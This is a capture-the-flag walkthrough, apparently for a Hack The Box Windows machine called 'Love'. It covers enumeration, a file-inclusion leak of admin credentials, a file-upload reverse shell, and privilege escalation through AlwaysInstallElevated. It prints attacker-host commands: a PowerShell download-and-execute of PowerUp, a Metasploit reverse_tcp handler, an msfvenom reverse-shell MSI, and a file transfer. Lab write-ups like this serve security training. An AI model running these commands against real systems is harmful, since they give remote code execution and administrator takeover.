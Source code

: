 # Writeup

Start with usual nmap enumeration 
```bash
$ nmap -sC -sV -oN nmap-initial 10.10.10.239

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 17:42 CEST
Nmap scan report for 10.10.10.239
Host is up (0.013s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, NotesRPC: 
|_    Host '10.10.14.217' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/25%Time=60AD1AF0%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(No
SF:tesRPC,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m34s, deviation: 4h02m31s, median: 21m33s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-25T09:04:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-25T16:04:16
|_  start_date: N/A

```

We have 3 web servers but we are only allowed to visit the one hosted on port 80. We get *Forbidden* for all the others.

We can extract some info from the SSL certificate

>![](imgs/20210525-175432.png)

We proceed to add the 2 love.htb domains to the `/etc/hosts` file.

If we visit `http://staging.love.htb `we are redireced to the following page:

>![](imgs/20210525-180336.png)

In the demo tab we can specify a file from our machine

>![](imgs/20210525-182156.png)

and its content gets displayed 

>![](imgs/20210525-182309.png)


Let's try with a more interesting payload: `<script>alert("hey");</script>`

>![](imgs/20210525-182615.png)

Here we go, we can inject javascrypt.

What about php?   
We try with: `<?php phpinfo(); ?>`

Nope it doesn't work


So we could:

1. Find a way to have code execution 
2. Include a local file to get its content


## Local file inclusion (LFI)

>![](imgs/20210525-185228.png)

Remember that we were forbidden to access the page on port 5000. We try that one

>![](imgs/20210525-185541.png)

And we have some admin credentials: `admin:@LoveIsInTheAir!!!!`

We go to the administration page we previously found with gobuser, namely `http://love.htb/admin/`.

We enter the credentials and we are in.


## Voting administration portal

>![](imgs/20210525-190137.png)

Seems that Neovic Devierte is the name of the admnisrator

>![](imgs/20210525-191211.png)

The website has been produced by Sourcecodemaster

>![](imgs/20210525-192140.png)

By googling we find that this version of Voting system has a RCE exploit in Exploit DB

> ![](imgs/20210525-192343.png)

We have file upload vulnerability in the candidate page, so we create a candidate and upload our reverse shell (The target machine is a Windows host, so we need a reverse shell for windows. A php reverse shell will work fine as php files are executed by Apache). We used https://github.com/ivan-sincek/php-reverse-shell.

>![](imgs/20210525-193249.png)

Meanwhile we also set up a meterpreter listener:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.217
set lport 9001
run
```

Then we upload the file and get the callback

>![](imgs/20210525-233905.png)

We get a shell as the Phoebe user

We can go in the Phebe desktop folder and get the user flag

## Root

We first try to upgrade our shell to a meterpreter shell but unsuccessfully

Then we start the windows enumeration 

We used `PowerUp`.

Invoking all the checks:

```
C:\Users\Phoebe>powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.224:8000/PowerUp.ps1'); Invoke-AllChecks
                                                                                                                                                                                              
[.....]                                                                                             

Check         : AlwaysInstallElevated Registry Key                          
AbuseFunction : Write-UserAddMSI             

[.....]                                    
```

The `AlwaysInstallElevated` registry key is up. It allows non-priv users the ability to install .msi packages with elevated permissions.

### EoP

Create malicious **msi** using **msfvenom**
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.224 LPORT=9002 -f msi -o e
scalate.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: escalate.msi
```


Transfer file to target machine
```
powershell Invoke-WebRequest -Uri http://10.10.14.224:8000/escalate.msi -OutFile escalate.msi
```

Then execute the malicious **msi**

>![](imgs/20210602-005937.png)
